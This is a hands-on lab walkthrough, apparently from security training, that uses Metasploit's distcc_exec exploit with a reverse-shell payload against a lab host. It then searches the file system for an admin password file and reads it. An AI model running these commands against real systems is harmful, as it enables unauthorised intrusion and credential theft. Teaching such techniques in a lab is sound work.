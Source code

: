 # Privilege Escalation Demo

**Note**: Ensure that you do not miss running any of the commands mentioned in the steps below. If you fail to run any of the commands, the lab validation may fail.

We will first set up a low-privileged shell using Metasploit, which you will then use for post-exploitation and privilege-escalation techniques.

1.  Open the Hyper-V Manager in your **LabVM** and right click on **Kali virtual machine** then click on **Connect** to connect to your **Kali virtual machine**.

    ![](./images/selecthyperv.png)

    ![](./images/kali.png)

    login to the Kali VM using username **root** and password **kali**.

2. On the Desktop of Kali VM, right click and choose **Open Terminal here**.

    ![](./images/terminal.png)

3. In the terminal enter **msfconsole** to launch msfconsole.

    ![](./images/msfconsole.png)

4. search for **distcc** using command **search distcc**.

    ![](./images/searchdistcc.png)

5. select the module using command **use exploit/unix/misc/distcc_exec**.

    ![](./images/use.png)

6. set the remote host using command **set RHOSTS 172.22.117.150**.

    ![](./images/Rhosts-1.png)

7. Before running the module, we need to set a payload. List the available payloads using command **show payloads**.

    ![](./images/showpay.png)

8. Select the reverse payload. Be sure NOT to select reverse_bash, or the exploit will not work using command **set PAYLOAD cmd/unix/reverse**.

    ![](./images/reverse.png)

9. Host that listens for the payload communication. In this case, our LHOST is the machine that we're currently operating on. 

    Run command **set LHOST 172.22.117.100**

    ![](./images/lhost.png)

10. Run the module.

    ![](./images/exploit1.png)

11. Use the `find` command (`find / -type f -iname "*admin*.txt"`), as the following image shows:

    ![](./images/find.png)

12. Run the commnd **cat /var/tmp/adminpassword.txt** to get the admin username and password.

    ![](./images/cat.png)

13. click on **ctrl + c** and then enter command **exit** from msfconsole.

    ![](./images/exit.png)
